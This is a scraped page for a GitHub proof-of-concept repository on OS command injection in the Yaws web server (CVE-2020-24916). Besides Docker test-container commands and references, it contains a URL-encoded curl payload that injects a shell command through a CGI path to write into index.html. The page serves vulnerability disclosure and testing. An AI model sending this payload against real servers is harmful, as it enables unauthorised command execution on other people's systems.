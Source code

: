 # poc-yaws-cgi-shell-injection

Yaws web server OS command injection POC

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/vulnbe](https://github.com/vulnbe) |
| Url      | [https://github.com/vulnbe/poc-yaws-cgi-shell-injection](https://github.com/vulnbe/poc-yaws-cgi-shell-injection)                                               |
| Stars    | 1                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2020-24916

</details>

## Readme

# OS command injection in Yaws web server (CVE-2020-24916)

## Proof of concept

Build test image:

`docker build -t vulnbe/yaws-pocs:shell-injection-appmod-cgi -f Dockerfile .`

and/or

Run container `docker run --rm -d -i -p 127.0.0.1:8000:8080 vulnbe/yaws-pocs:shell-injection-appmod-cgi`

```bash
curl 'http://127.0.0.1:8000/cgi-bin/%22%60export%20Z=$(pwd%7Ccut%20-c1);echo%20pawned%20completely%3E%3E..$Z%22%22index.html%60%22'
curl http://127.0.0.1:8000/index.html
```

## Credit

Alexey Pronin ([@vulnbe](https://twitter.com/vulnbe))

## References

* [Vulnerability analysis](https://vuln.be/post/yaws-xxe-and-shell-injections/)
* [Yaws on github](https://github.com/erlyaws/yaws)
* [CVE-2020-24916](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24916)
* [CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')](https://cwe.mitre.org/data/definitions/78.html)



## Get the content

```
git clone https://github.com/vulnbe/poc-yaws-cgi-shell-injection
cd poc-yaws-cgi-shell-injection
```

{% embed url="https://github.com/vulnbe/poc-yaws-cgi-shell-injection" %}

<figure><img src="https://avatars.githubusercontent.com/u/24279065?v=4" alt=""><figcaption><p>vulnbe</p></figcaption></figure>
